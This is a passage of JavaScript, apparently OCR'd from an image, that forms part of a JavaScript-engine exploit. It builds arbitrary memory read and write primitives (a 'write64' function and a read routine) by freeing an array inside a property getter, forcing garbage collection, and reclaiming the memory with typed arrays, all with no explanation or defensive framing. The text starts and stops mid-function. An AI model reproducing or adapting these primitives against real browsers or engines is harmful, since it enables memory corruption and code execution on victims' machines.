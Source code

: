 ```js
        var buf = new ArrayBuffer(8);
        writer = new BigUint64Array(buf);
        if (addr < 0n) {
            const mod = 1n << BigInt(8 * 8);
            addr = (mod + addr) & (mod - 1n);
          }
          for (let i = 0; i < 8; i++) {
            obj2[i] = Number(addr & 0xffn);
            addr >>= 8n;
          }
        obj2 = null;
        buf = null;
        gc();
        gc();
        
    }

    obj1.from = 19;
    obj1.swap();
    console.log(objectAddress(writer));
    out=writer[0];
    writer = null;
    gc();
    gc();
    return out
}


function write64(addr,value) {
    gc();
    gc();
    var writer;
    var obj = new Array(1);
    var obj1 = new Array(30).fill(1);
    objectAddress(obj1);

    Object.defineProperty(obj1, "to", {
        configurable: true,
        enumerable: true,
        get() {
            console.log("Getter for 'to' called");
            change_element2();
            return 8;
        }
    });

    function change_element2() {
        console.log("change_element2 called");
        console.log(objectAddress(obj1));
        obj1 = null; 
        gc();
        gc();
        gc();
        var obj2 = new Uint8Array([1,2,3,4,5,6,7,8]);
        var buf = new ArrayBuffer(8);
        writer = new BigUint64Array(buf);
        if (addr < 0n) {
            const mod = 1n << BigInt(8 * 8);
            addr = (mod + addr) & (mod - 1n);
          }
          for (let i = 0; i < 8; i++) {
            obj2[i] = Number(addr & 0xffn);
            addr >>= 8n;
```